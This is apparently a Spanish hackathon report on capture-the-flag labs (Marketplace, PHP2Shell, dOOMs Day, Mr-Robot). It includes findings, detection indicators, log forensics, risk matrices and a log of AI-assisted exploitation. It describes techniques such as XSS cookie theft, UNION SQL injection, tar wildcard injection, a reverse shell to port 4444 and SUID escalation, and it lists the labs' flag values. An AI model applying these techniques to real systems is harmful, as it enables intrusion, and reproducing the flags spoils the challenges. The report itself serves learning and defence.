cat /root/key-3-of-3.txt

| Clave | Origen | Valor |
|---|---|---|
| Key 1 | robots.txt (anónimo) | 073403c8a58a1f80d943455fb30724b9 |
| Key 2 | usuario robot | 822c73956184f694993bede3eb39f959 |
| Key 3 | root (SUID nmap) | 04787ddef27c3dee1ee161b21670b4e4 |
Lección: la cadena completa, de reconocimiento a root, no dependió de ninguna vulnerabilidad de día cero, sino de errores de configuración acumulados: información expuesta, credenciales débiles, permisos excesivos y un binario SUID mal configurado. El hardening básico y consistente es más determinante que la defensa contra amenazas sofisticadas.
Resumen ejecutivo: la plataforma de comercio electrónico de InnovaSec S.A.S. presenta debilidades que, encadenadas, permiten el compromiso total del servidor (de usuario anónimo a root). La causa raíz combina validación de entrada insuficiente (XSS/SQLi), gestión deficiente de credenciales (secretos en texto claro, cookies sin HttpOnly) y configuración insegura del sistema (regla sudo peligrosa, grupo docker). Se recomienda tratamiento prioritario.
| ID | Hallazgo | Severidad | Impacto principal | Evidencia |
|---|---|---|---|---|
| H-01a | XSS almacenado → robo de sesión admin | Crítico | Suplantación del administrador | Fig. 4–7 |
| H-01b | SQL Injection (UNION) en user | Crítico | Exfiltración completa de la BD | Fig. 8–11 |
| H-01c | Credenciales en texto claro | Alto | Acceso SSH como jake | Fig. 11 |
| H-01d | sudo NOPASSWD + tar wildcard injection | Alto | Escalada jake → michael | Fig. 14–18 |
| H-01e | Usuario en grupo docker | Crítico | Escalada michael → root | Fig. 19–20 |
https://top10.owasp.org/2025/); la numeración cambió respecto a 2021. No se fuerzan categorías: cuando aplica
mejor una referencia CWE, se indica.| ID | Hallazgo | Categoría OWASP 2025 | Justificación |
|---|---|---|---|
| H-01a | XSS almacenado + cookie sin HttpOnly | Injection (XSS) + Identification & Authentication Failures | Entrada no codificada ejecutada en el navegador del admin; sesión robable por falta de HttpOnly. |
| H-01b | SQL Injection | Injection | Parámetro user concatenado sin parametrizar; permite UNION y volcado de la BD. |
| H-01c | Credenciales en texto claro | Cryptographic Failures | Secreto (contraseña) almacenado/transmitido sin cifrar. |
| H-01f | Acceso a panel admin y lectura de datos ajenos | Broken Access Control | Un usuario normal obtiene rol admin y lee mensajes de otros usuarios. |
| H-01d | sudo + tar wildcard | Security Misconfiguration (CWE-78 / CWE-732) | Regla sudo sobre script con * y directorio world-writable. |
| H-01e | Grupo docker | Security Misconfiguration / Broken Access Control (CWE-250) | Pertenecer al grupo docker equivale a privilegios de root. |
| H-02a | RCE no autenticada vía runtime PHP 8.4.26 (PHP2Shell) → ejecución como www-data | A03:2025 Software Supply Chain Failures (runtime sin parchear); causa raíz CVE-2026-109619, CWE-824 (use-after-free, CWE-416), relación con A10:2025 Mishandling of Exceptional Conditions | La debilidad no está en el código de la aplicación sino en el motor PHP: el bailout tras agotar memoria deja un puntero colgante que una segunda petición reocupa con un destructor forjado. |
| H-02b | Divulgación de memoria del proceso en la cabecera Set-Cookie (PHPSESSID) | A03:2025 / CWE-824 (CWE-200 Exposure of Sensitive Information) | CVE-2026-109618 devuelve hasta ~67 KB de memoria del worker por petición; en producción puede filtrar contraseñas, cookies y claves TLS. |
| H-02c | session.upload_progress habilitado por defecto; memory_limit bajo | A02:2025 Security Misconfiguration | Configuración por defecto que abre el punto de apoyo previo a la autenticación y facilita provocar el agotamiento de memoria. |
| H-03a | dOOMs Day: PHP 8.4.26 vulnerable explotado sin autenticación (PHP2Shell) → RCE como www-data | A03:2025 Software Supply Chain Failures (componente del entorno de ejecución sin parchear); causa raíz CVE-2026-109618 / CVE-2026-109619, relacionada con A10:2025 Mishandling of Exceptional Conditions | La debilidad no está en el código de la aplicación sino en el runtime PHP desactualizado; la 109618 nace de un mal manejo de la condición de falta de memoria, y la 109619 es un use-after-free (CWE-416), mejor descrita por su CVE/CWE que por una categoría OWASP. |
| H-03b | dOOMs Day: session.upload_progress habilitado y sin límites de tamaño, campos ni anidación | A02:2025 Security Misconfiguration | Configuración por defecto innecesaria que abre la ruta confirmada de la 109619 y permite agotar la memoria con formularios de miles de campos. |
| H-03c | dOOMs Day: ataque ruidoso sin alertas y conexión saliente al puerto 4444 permitida | A09:2025 Security Logging & Alerting Failures | Los logs registraron 149 POST, errores de memoria y segfaults, pero nada alertó; el servidor pudo abrir una shell saliente sin filtrado egress. |
| H-04c | Mr-Robot: editor de temas de WordPress habilitado → RCE (reverse shell en 404.php) | A02:2025 Security Misconfiguration | Función innecesaria en el panel admin que permite ejecutar código del servidor. |
| H-04e | Mr-Robot: binario nmap con bit SUID → escalada a root | A06:2025 Insecure Design (CWE-250) | Un binario SUID con modo interactivo permite ejecutar una shell como root. |
| H-04b | Mr-Robot: credenciales débiles de WordPress (elliot) por fuerza bruta | A07:2025 Authentication Failures | Sin bloqueo ni MFA, la contraseña cae ante un diccionario con Hydra. |
| H-04d | Mr-Robot: archivo de contraseñas con lectura pública (password.raw-md5) | A02:2025 Security Misconfiguration | Permisos excesivos exponen el hash de robot, craqueable al instante. |
| H-04a | Mr-Robot: exposición de información sensible vía robots.txt | A01:2025 Broken Access Control | robots.txt revela el diccionario de contraseñas y la primera clave sin control de acceso. |
| H-04f | Mr-Robot: certificado TLS autofirmado y expirado | A04:2025 Cryptographic Failures | HTTPS con certificado vencido: sin garantías de identidad ni cifrado vigente. |
Para el nivel 1, el análisis defensivo se centra en la detección y mitigación de los hallazgos de Marketplace (la investigación dOOMs Day corresponde al nivel 3).
Registros relevantes para la detección: /var/log/nginx/access.log y error.log
(peticiones con UNION/SELECT, ráfagas de 403, <script> en parámetros), log de la aplicación
Node.js (errores SQL), /var/log/auth.log (accesos SSH de jake, uso de sudo), auditd
sobre /opt/backups y el socket docker.sock. Se recomienda centralizarlos en un SIEM.
| Hallazgo | Indicador de ataque (detección) | Contramedida (mitigación/prevención) |
|---|---|---|
| XSS almacenado | <script> en campos de anuncios; peticiones salientes a IP externa; violaciones de CSP | Codificación de salida, CSP, cookies HttpOnly+Secure, sanitización |
| SQL Injection | Errores SQL en logs; patrones UNION/SELECT/information_schema; ráfaga de 403 | Consultas parametrizadas/ORM, WAF, mínimo privilegio en BD, validación de entrada |
| Credenciales en claro | Secretos en tablas/mensajes; accesos SSH exitosos tras lectura de BD | No almacenar secretos en claro; hashing/cifrado; rotación |
| tar wildcard / sudo | auditd sobre sudo y /opt/backups; ficheros con nombres --checkpoint* | Rutas absolutas en scripts privilegiados, revisión de reglas sudo, quitar world-writable |
| Grupo docker | Creación de contenedores con -v /; uso del socket docker.sock | Retirar usuarios del grupo docker; docker rootless; mínimo privilegio |
La única corrección completa es parchear el runtime PHP (8.4.27, 8.5.12, 8.3.36 o 8.2.35) y reiniciar todos los workers; actualizar el CMS o framework no corrige el fallo, que está por debajo. Un WAF que corre como módulo de PHP no sirve: inspecciona el tráfico cuando PHP ya cedió el control a la aplicación, pero el ataque termina su trabajo mientras la petición aún se parsea. La protección debe estar en el runtime parcheado o en una capa por delante de PHP.
| Medida | Tipo | Efecto |
|---|---|---|
| Actualizar PHP a 8.4.27+ y reiniciar workers | Prevención | Corrección completa; elimina el código vulnerable |
session.upload_progress.enabled = 0 + reiniciar workers | Mitigación | Quita el disparador de la mayoría de las técnicas publicadas |
opcache.enable = 0; en PHP 8.5 fatal_error_backtraces = 0 | Mitigación | Frustra la ruta de ejecución (y, en 8.5, la 109619) |
Rechazar multipart/form-data en el borde; mínimo privilegio del proceso PHP | Prevención | Bloquea la entrega (rompe subidas legítimas); limita el impacto si la cadena cae |
Alertar sobre PHPSESSID grandes en Set-Cookie | Detección | La fuga produce cookies enormes frente a los identificadores de longitud fija |
Alertar sobre POST multipart grandes con muchos campos y PHP_SESSION_UPLOAD_PROGRESS | Detección | Marca de las peticiones de entrega del exploit |
| Alertar sobre caídas de workers PHP y errores OOM | Detección | El agotamiento de memoria que impulsa el bug deja rastro en los logs |
Esta detección conecta con el Reto 3 (dOOMs Day), donde esas mismas marcas (PHPSESSID gigante, multipart con PHP_SESSION_UPLOAD_PROGRESS, OOM y segfaults) aparecen en los registros de un servidor ya comprometido por PHP2Shell.
Contexto: tráfico sospechoso en un servidor Dev interno de DevNotes.org; se entregan los logs de Apache2 y una captura de red. La reconstrucción completa, con comandos y capturas, está en el apartado 6 (Reto 3). Fuentes: access.log, error.log con mod_dumpio (cuerpos de petición), Capture.pcap y el aviso de seguridad de php.net.
| ID | Fuente | Evento identificado | Indicador de ataque | Interpretación | Contramedida |
|---|---|---|---|---|---|
| E-01 | access.log | 149 POST a /index.php desde 192.168.72.1 (08:42:52–08:43:00), respuesta 0 bytes | Ráfaga de POST idénticos de una IP sin tráfico previo | Ocupación deliberada del pool de workers | Rate limiting por IP; alerta por ráfagas de POST |
| E-02 | error.log | Multipart con boundaries ZZZZZZZZZZ, CCCCCCCCCC, SSSS…, BBBBBBBBBB, BNDRY12345 y campo PHP_SESSION_UPLOAD_PROGRESS | Boundaries artificiales y subidas incompletas | Preparación y disparo de CVE-2026-109619 | WAF para multipart anómalo; session.upload_progress.enabled=0 |
| E-03 | error.log | «Allowed memory size of 134217728 bytes exhausted» in Unknown on line 0 (pid 145) | Agotamiento de memoria sin script en ejecución | Disparo de CVE-2026-109618 | Regla de detección OOM; parchear PHP |
| E-04 | access.log + error.log | POST de 774455 bytes a /api/health.php; Set-Cookie PHPSESSID de 773518 bytes | Cookie de sesión enorme con punteros de memoria | Fuga del heap para calcular offsets de la RCE | Alerta por respuestas o cookies de tamaño anómalo; límite de tamaño de petición |
| E-05 | Capture.pcap | SYN de 192.168.72.50:55914 a 192.168.72.1:4444; shell www-data (streams 810 y 999) | Conexión saliente del servidor web a un puerto no estándar | Reverse shell: RCE lograda a las 08:43:02 | Filtrado egress; IDS de red |
| E-06 | Capture.pcap | find de *.sqlite/*.db y strings /var/www/data/devnotes.sqlite | Enumeración de bases de datos desde la cuenta web | Acceso a la información de la aplicación | Mínimo privilegio; BD fuera de la ruta web; monitoreo de procesos |
| E-07 | error.log | AH00052: pid 145 (08:46:16) y pid 170 (08:47:42) con Segmentation fault | Caídas de workers tras tráfico multipart anómalo | Memoria corrompida por el exploit | Regla de detección de caídas de worker |
Cronología resumida (UTC): 08:42:52 ocupación de workers → 08:42:58 PHP_SESSION_UPLOAD_PROGRESS → 08:43:01.9 agotamiento de memoria y fuga en la cookie → 08:43:02 reverse shell → reconocimiento y búsqueda de BD → 08:46:16 caída pid 145 → 08:46:29 reconexión y lectura de devnotes.sqlite → 08:47:42 caída pid 170.
Mecanismos de detección propuestos: las reglas Sigma de PHP2Shell citadas en el writeup (autor Mohammad Alattas) son dos que encajan con esta evidencia: (1) error «Allowed memory size of … exhausted» junto con «Unknown on line 0» o rfc1867.c, y (2) caídas de workers PHP/Apache por SIGSEGV, SIGABRT o SIGBUS (AH00052). Ambas dispararían con E-03 y E-07; su prueba automatizada contra estos logs queda como posible aporte adicional. Contención: aislar el servidor, bloquear 192.168.72.1, terminar la sesión de la shell, rotar credenciales y revisar la integridad de devnotes.sqlite.
Un equipo Blue Team con visibilidad adecuada habría detectado la cadena en varios puntos: un WAF o IPS habría identificado la ráfaga de POST de Hydra contra wp-login.php; un sistema de integridad de archivos (FIM) habría alertado por la modificación no autorizada de 404.php; y el monitoreo de conexiones salientes habría detectado la reverse shell al puerto 4444.
| Indicador de ataque | Interpretación | Contramedida |
|---|---|---|
| Múltiples fallos de login contra wp-login.php desde una IP | Fuerza bruta (Hydra) | Bloqueo tras N intentos, MFA, WAF |
| Modificación de un archivo de tema (404.php) | Webshell plantada vía editor | FIM + DISALLOW_FILE_EDIT |
| Conexión saliente del servidor web al puerto 4444 | Reverse shell (acceso inicial) | Egress filtering; IDS de red |
| nmap con SUID y /bin/sh lanzado por Apache | Escalada y post-explotación | Mínimo privilegio; auditoría de SUID |
| Hallazgo | Confidencialidad | Integridad | Disponibilidad | Consecuencia organizacional |
|---|---|---|---|---|
| XSS → sesión admin | Alto | Alto | Bajo | Suplantación del administrador; manipulación de la plataforma |
| SQL Injection | Alto | Medio | Bajo | Fuga de datos de clientes; incumplimiento legal (protección de datos) |
| Credenciales en claro | Alto | Medio | Bajo | Acceso no autorizado; reutilización de credenciales |
| Escalada a root | Alto | Alto | Alto | Control total del servidor; borrado/alteración de evidencia |
| RCE por PHP2Shell (Reto 2) | Alto | Alto | Medio | Ejecución de comandos como www-data sin autenticación; caídas de workers |
| Divulgación de memoria (Reto 2) | Alto | Bajo | Bajo | Fuga de secretos del proceso: contraseñas, cookies y claves TLS |
| RCE por PHP2Shell (Reto 3) | Alto | Alto | Medio | Ejecución de comandos como www-data sin autenticación; caídas de workers (pid 145 y 170) |
| Lectura de devnotes.sqlite (Reto 3) | Alto | Bajo | Bajo | Divulgación del contenido de la aplicación (publicaciones y comentarios) |
| RCE por editor de temas (Reto 4) | Alto | Alto | Medio | Ejecución como daemon; posible webshell persistente |
| Escalada a root SUID (Reto 4) | Alto | Alto | Alto | Control total del servidor; lectura o alteración de cualquier archivo |
Metodología: enfoque simplificado inspirado en MAGERIT (activo → amenaza → vulnerabilidad → valoración impacto×probabilidad) con la escala académica de la hackathon. Riesgo = Impacto × Probabilidad. Escala 1–4 (Bajo/Medio/Alto/Crítico). Niveles: 1–3 Bajo · 4–6 Medio · 7–11 Alto · 12–16 Crítico.
| ID | Activo | Amenaza | Vulnerabilidad | Imp. | Prob. | Riesgo | Nivel |
|---|---|---|---|---|---|---|---|
| R-01 | Aplicación web | Robo de sesión / acceso no autorizado | XSS almacenado + cookie sin HttpOnly | 4 | 3 | 12 | Crítico |
| R-02 | Base de datos | Divulgación de información | SQL Injection | 4 | 3 | 12 | Crítico |
| R-03 | Servidor (SO) | Escalada a root | sudo inseguro + tar wildcard + grupo docker | 4 | 2 | 8 | Alto |
| R-04 | Credenciales de usuarios | Acceso no autorizado | Secretos en texto claro | 3 | 3 | 9 | Alto |
| R-05 | Capacidad de detección | Incidente no detectado | Registro y monitoreo insuficientes | 3 | 3 | 9 | Alto |
| R-06 | Servidor de aplicaciones (runtime PHP 8.4.26) | Ejecución remota de código no autenticada | CVE-2026-109619 (PHP2Shell): destructor forjado tras bailout | 4 | 3 | 12 | Crítico |
| R-07 | Memoria del proceso (secretos, claves TLS) | Divulgación de información | CVE-2026-109618: puntero colgante leído en Set-Cookie | 4 | 3 | 12 | Crítico |
| R-08 | Configuración del runtime y detección | Explotación facilitada / incidente no detectado | session.upload_progress por defecto; sin alertas de PHPSESSID grande ni OOM | 3 | 3 | 9 | Alto |
| R-09 | Servidor de aplicaciones (PHP 8.4.26) | Ejecución remota de código no autorizada | Componente sin parchear: CVE-2026-109618 + CVE-2026-109619 | 4 | 3 | 12 | Crítico |
| R-10 | Base de datos de la aplicación (devnotes.sqlite) | Divulgación de información | BD legible por www-data, sin segmentación | 3 | 3 | 9 | Alto |
| R-11 | Capacidad de detección y respuesta | Incidente no detectado a tiempo | Sin alertas sobre OOM/segfault ni control de tráfico saliente | 3 | 3 | 9 | Alto |
| R-12 | Aplicación web (WordPress / panel admin) | Ejecución remota de código no autorizada | Editor de temas habilitado: reemplazo de 404.php por una shell | 4 | 3 | 12 | Crítico |
| R-13 | Sistema operativo del servidor | Escalada de privilegios a root | Binario nmap con bit SUID y modo interactivo | 4 | 3 | 12 | Crítico |
| R-14 | Panel de administración de WordPress | Acceso no autorizado | Credenciales débiles sin bloqueo ni MFA | 3 | 3 | 9 | Alto |
| R-15 | Servidor web (archivos públicos) | Divulgación de información | robots.txt y archivo de credenciales legibles; TLS vencido | 3 | 2 | 6 | Medio |
Justificación (Reto 2): R-06 y R-07 tienen impacto 4 (ejecución de comandos sin autenticación y fuga de secretos del proceso, incluidas claves TLS) y probabilidad 3 porque los CVE son públicos, con CVSS 9.2, afectan a 14 años de versiones de PHP y se registraron intentos de explotación a las pocas horas de la divulgación; el laboratorio completó la cadena en menos de 10 segundos. R-08 (impacto 3, probabilidad 3) refleja que la configuración por defecto habilita el ataque y que sus marcas, aunque claras en los logs, no generan alertas por sí solas.
Justificación (Reto 3): R-09 tiene impacto 4 porque da ejecución de comandos sin autenticación sobre el servidor, y probabilidad 3 porque los CVE son públicos, tienen CVSS 9.2 y el laboratorio muestra la explotación completa en 10 segundos. R-10 tiene impacto 3: la RCE como www-data basta para leer la base de datos de la aplicación (evidencia E-06), aunque no se comprometió el sistema operativo completo. R-11 tiene impacto 3 y probabilidad 3: el ataque dejó señales claras (149 POST, OOM, segfaults, shell saliente) y ninguna generó alerta, lo que permitió la actividad posterior.
Justificación (Reto 4): R-12 y R-13 son críticos (impacto 4): la RCE da ejecución de código en el servidor y el SUID de nmap da control total como root; probabilidad 3 porque son fallos de configuración conocidos y explotables con herramientas estándar. R-14 (9) refleja credenciales adivinables sin bloqueo; R-15 (6) agrupa la información expuesta y el certificado vencido, de menor impacto directo.
Impacto (filas) × Probabilidad (columnas). Cada celda muestra los riesgos que caen en ella.
| Prob. 1 | Prob. 2 | Prob. 3 | Prob. 4 | |
|---|---|---|---|---|
| Imp. 4 | R-03 (8) | R-01R-02R-06R-07R-09R-12R-13 (12) | ||
| Imp. 3 | R-15 (6) | R-04R-05R-08R-10R-11R-14 (9) | ||
| Imp. 2 | ||||
| Imp. 1 |
Bajo 1–3 Medio 4–6 Alto 7–11 Crítico 12–16
Prioridad de tratamiento: R-01, R-02, R-06, R-07, R-09, R-12 y R-13 (Críticos) → atención inmediata; R-03, R-04, R-05, R-08, R-10, R-11 y R-14 (Altos) → corto plazo; R-15 (Medio).
| Riesgo | Control (ID + nombre) | Justificación |
|---|---|---|
| R-01 / R-02 | A.8.28 — Codificación segura | Validación de entrada y codificación de salida previenen XSS y SQLi en el desarrollo. |
| R-02 | A.8.8 — Gestión de vulnerabilidades técnicas | Pruebas de seguridad y corrección de la inyección en el SDLC. |
| R-04 | A.5.17 — Información de autenticación | Prohíbe secretos en claro; exige gestión segura de credenciales. |
| R-03 | A.8.2 — Derechos de acceso privilegiado | Revisión de reglas sudo y membresía del grupo docker (mínimo privilegio). |
| R-03 | A.8.9 — Gestión de la configuración | Hardening del servidor; eliminar directorios world-writable y configuraciones inseguras. |
| R-05 | A.8.15 / A.8.16 — Registro y seguimiento | Configurar, proteger y correlacionar logs para detectar incidentes. |
| R-06 / R-07 | A.8.8 — Gestión de vulnerabilidades técnicas | El runtime PHP 8.4.26 seguía en producción existiendo ya el parche 8.4.27: inventario de versiones y parcheo con plazos. |
| R-06 | A.8.9 — Gestión de la configuración | Desactivar session.upload_progress y opcache reduce la superficie mientras se parchea. |
| R-07 | A.8.24 — Uso de criptografía | Rotar las claves TLS y secretos que la fuga de memoria pudo exponer. |
| R-08 | A.8.16 / A.8.20 — Seguimiento y seguridad de redes | Alertas sobre PHPSESSID grandes y OOM; rechazar multipart en el borde por delante de PHP. |
| R-09 | A.8.8 — Gestión de vulnerabilidades técnicas | PHP 8.4.26 seguía en producción cuando ya existía la versión corregida 8.4.27: hace falta inventario de versiones y parcheo con plazos. |
| R-09 | A.8.9 — Gestión de la configuración | Desactivar session.upload_progress y fijar límites de tamaño, campos y anidación reduce la superficie mientras se parchea. |
| R-10 | A.8.3 — Restricción del acceso a la información | La cuenta del servidor web no debería poder recorrer el sistema ni leer datos fuera de lo que la aplicación necesita. |
| R-11 | A.8.16 — Actividades de seguimiento | Las señales del ataque (OOM, segfaults, ráfagas) existían en los logs; faltaban reglas que las convirtieran en alertas. |
| R-11 | A.8.20 — Seguridad de las redes | Filtrar el tráfico saliente del servidor web habría impedido la reverse shell al puerto 4444. |
| R-11 | A.5.26 — Respuesta a incidentes de seguridad de la información | Procedimiento para aislar el servidor, cortar la sesión, preservar evidencia y rotar credenciales. |
| R-12 | A.8.9 — Gestión de la configuración | Deshabilitar el editor de temas (DISALLOW_FILE_EDIT) elimina la vía de RCE desde el panel. |
| R-13 | A.8.8 — Gestión de vulnerabilidades técnicas | Quitar el bit SUID de binarios innecesarios y auditarlos cierra la escalada a root. |
| R-14 | A.5.17 / A.8.5 — Autenticación | MFA, política de contraseñas y bloqueo tras intentos fallidos en el login. |
| R-15 | A.8.3 / A.8.24 — Acceso a la información y criptografía | Restringir archivos públicos y renovar el certificado TLS. |
| Tipo | Contramedida |
|---|---|
| Técnica | Consultas parametrizadas/ORM; output encoding + CSP + cookies HttpOnly/Secure; eliminar la regla sudo peligrosa y usar rutas absolutas; retirar usuarios del grupo docker; cifrar/retirar secretos en claro. Retos 2 y 3 (PHP2Shell): actualizar PHP a 8.4.27+ y reiniciar los workers; session.upload_progress.enabled=0, opcache.enable=0 y, en PHP 8.5, fatal_error_backtraces=0; post_max_size bajo con límites de campos, partes multipart y anidación; rechazar multipart y filtrar el tráfico saliente en el borde; mínimo privilegio del proceso PHP; reglas de detección de PHPSESSID grande, OOM y caídas de workers. Reto 4 (Mr-Robot): DISALLOW_FILE_EDIT en wp-config; quitar el bit SUID de binarios innecesarios; permisos restrictivos a archivos sensibles; renovar el certificado TLS. |
| Administrativa | Política de gestión de accesos privilegiados; estándar de desarrollo seguro; procedimiento de respuesta a incidentes; revisiones periódicas de configuración. Retos 2 y 3: política de parcheo con plazos para componentes críticos; inventario de versiones del runtime y tratarlo como parte de la superficie de ataque. Reto 4: MFA en accesos administrativos, bloqueo tras intentos fallidos y revisión periódica de archivos públicos. |
| Organizacional | Concienciación del equipo de desarrollo; segregación de funciones; designación de responsables de seguridad; auditorías periódicas. |
| Riesgo | Trat. | Acción | Responsable | Prioridad | Verificación | R. residual |
|---|---|---|---|---|---|---|
| R-01 XSS | Mitigar | Output encoding + CSP + HttpOnly | Equipo de desarrollo | Alta | Pruebas con payloads XSS | 12 → 4 |
| R-02 SQLi | Mitigar | Prepared statements + validación | Equipo de desarrollo | Alta | sqlmap sin resultados | 12 → 3 |
| R-03 Privesc | Mitigar | Quitar regla sudo/tar; retirar del grupo docker; hardening | Admin de sistemas | Alta | Revisión de permisos; sudo -l | 8 → 3 |
| R-04 Credenciales | Mitigar | Cifrar secretos; rotación; MFA | Desarrollo / IT | Media | Revisión de BD | 9 → 3 |
| R-05 Monitoreo | Mitigar | Centralizar logs (SIEM) + reglas de detección | Equipo Blue Team | Media | Simulación de ataque detectada | 9 → 4 |
| R-06 RCE PHP2Shell | Mitigar | Parchear PHP a 8.4.27+; desactivar upload_progress y opcache hasta parchear | Admin de aplicaciones | Alta | php -v ≥ 8.4.27; el exploit deja de funcionar | 12 → 3 |
| R-07 Divulgación de memoria | Mitigar | Parchear PHP; rotar claves TLS y secretos potencialmente filtrados | Admin de sistemas / IT | Alta | Sin PHPSESSID anómalos tras el parche | 12 → 3 |
| R-08 Config. + detección | Mitigar | Desactivar upload_progress; reglas de PHPSESSID grande, multipart y OOM | Equipo Blue Team | Media | Las reglas disparan ante un intento de explotación | 9 → 4 |
| R-09 PHP2Shell | Mitigar | Actualizar a PHP 8.4.27+; mientras tanto desactivar upload_progress y limitar tamaño/campos de las peticiones | Admin de aplicaciones | Alta | php -v ≥ 8.4.27; repetir la prueba del laboratorio sin OOM ni fuga | 12 → 3 |
| R-10 Datos de la aplicación | Mitigar | Mínimo privilegio para www-data; BD fuera de la ruta web; segmentación del contenedor | Admin de sistemas | Media | Revisión de permisos de /var/www/data | 9 → 4 |
| R-11 Detección y respuesta | Mitigar | Reglas de OOM y segfault; alertas por ráfagas y respuestas anómalas; egress filtering; procedimiento de respuesta | Equipo Blue Team | Alta | Las reglas disparan sobre los logs del Sherlock; conexión saliente a 4444 bloqueada | 9 → 3 |
| R-12 RCE editor de temas | Mitigar | DISALLOW_FILE_EDIT + MFA + WAF | Admin del sitio | Inmediata | Editor deshabilitado; prueba de no-edición | 12 → 3 |
| R-13 Escalada SUID nmap | Mitigar | Quitar SUID innecesarios; auditar con find -perm -4000 | Admin de sistemas | Alta | Sin binarios SUID anómalos | 12 → 3 |
| R-14 Credenciales WordPress | Mitigar | MFA, política de contraseñas, bloqueo de login | Admin del sitio | Alta | El login resiste la fuerza bruta | 9 → 3 |
| R-15 Información expuesta | Mitigar | Revisar robots.txt y permisos; renovar TLS | DevOps | Media | Archivos sensibles no accesibles; TLS vigente | 6 → 3 |
Dashboard ejecutivo interactivo de hallazgos, riesgos y prioridades (archivo Dashboard-CyberRisk.html):
visualización por reto con filtrado de hallazgos por severidad, mapa de calor interactivo y barras de prioridad/riesgo residual.
El panel del Reto 1 está completo; los retos 2–4 quedan como plantillas para el resto del equipo.
Este aporte contribuye a habilitar el techo de 5.0 una vez completados los cuatro retos.
| Herramienta | Prompt (resumen) | Resultado | Validación | Ajustes realizados |
|---|---|---|---|---|
| Claude (Anthropic) | "Dame el paso a paso para resolver The Marketplace (recon → explotación → escalada)" | Metodología por fases, comandos de nmap/SQLi/XSS y vías de escalada | Ejecutado en el laboratorio real (Fig. 1–21); 3/3 flags | La ruta real era /item/N (path) y la SQLi estaba en /admin?user=, no en /item?id= como sugería la guía inicial: se corrigió con pruebas manuales. |
| Claude (Anthropic) | "El payload XSS me redirige mi propio navegador, ¿cómo robo la cookie sin redirigir?" | Payload beacon con new Image().src en vez de document.location | El listener recibió el token de michael (admin) | Se cambió el payload redirector por el beacon para poder pulsar "Report". |
| Claude (Anthropic) | "sqlmap devuelve 403 y marca el parámetro no inyectable, ¿por qué?" | Explicación del filtro/WAF y guía de UNION manual | La inyección manual ?user=3-1 y UNION SELECT sí funcionaron | Se descartó sqlmap y se explotó manualmente con UNION de 4 columnas. |
| Claude (Anthropic) | "El exploit de tar falla con 'Bad fd number' / 'Permission denied'" | Diagnóstico: dash no soporta >&; el .tar previo era de jake | Shell de michael recibida tras corregir | Se cambió exec=sh por exec=bash y se borró backup.tar antes de disparar. |
| Claude (Anthropic) | "Estructura el informe y el dashboard según la rúbrica (20 apartados)" | Plantilla del informe, mapa de calor, matriz de riesgos, controles ISO | Revisado y ajustado por el equipo; datos reales del lab | Se completaron los campos del equipo y se verificó cada hallazgo antes de incluirlo. |
| Claude (Anthropic) | Reto 2: "Ayúdame a hacer el reto 2" + conexión OpenVPN y pasos de la sala PHP2Shell | Respuestas del cuestionario, pasos para conectar la VPN, confirmar el objetivo y correr el exploit | Cada paso se ejecutó en la máquina del laboratorio (Fig. R2-1 a R2-3); flag obtenida | Se corrigió un error de tipeo en una respuesta (Set-Cookie) y se registró la salida real del exploit (direcciones de heap/libphp). |
| Claude (Anthropic) | Reto 3: "Este es el tercero, ¿cómo tengo que hacer en Kali Linux?" (writeup de dOOMs Day) | Traducción del writeup (Notepad++/Wireshark en Windows) a comandos grep, awk, sed y tshark, paso a paso | Cada comando se ejecutó en Kali y su salida se comparó con el writeup (Fig. R3-1 a R3-16) | Se corrigió la ruta (~/Downloads), un cut que ocultaba la cookie y la conversión de hora de tshark (UTC−4 → UTC). |
| Claude (Anthropic) | Reto 3: interpretación de los resultados (boundaries, cookie, hora de la shell) | Explicación de cada fase del exploit y de la dirección de memoria filtrada | Contrastado con el aviso de php.net y con la secuencia del worker pid 145 | La petición BNDRY12345 no aparece en el writeup: se documentó como observación propia sin atribuirle una función no verificada. |
| Claude (Anthropic) | Reto 3: documento de seguimiento, panel del dashboard y redacción de este apartado | Tabla de evidencias, línea de tiempo, contramedidas y controles ISO propuestos | Revisado por el Líder Blue Team / Auditor ISO | Los controles ISO y la valoración de R-09 a R-11 se justificaron con la evidencia del laboratorio. |
| Claude (Anthropic) | Reto 4: integración del informe de Mr-Robot al dashboard y al documento consolidado | Panel del Reto 4, apartado 6, filas en tablas compartidas y riesgos R-12 a R-15 | Contrastado con el informe original de Mr-Robot y sus evidencias (Fig. R4-1 a R4-8) | Se renumeraron los riesgos a R-12..R-15 y se adaptó la escala al modelo consolidado 4×4. |
Reflexión: la IA se usó para estructurar y acelerar el trabajo, pero el equipo comprende y puede explicar cada paso. No se incorporaron vulnerabilidades, evidencias ni controles inventados: todo lo documentado proviene de la explotación real. Un punto notable fue entender por qué sqlmap falló (filtro 403) y por qué la inyección UNION manual sí tuvo éxito.
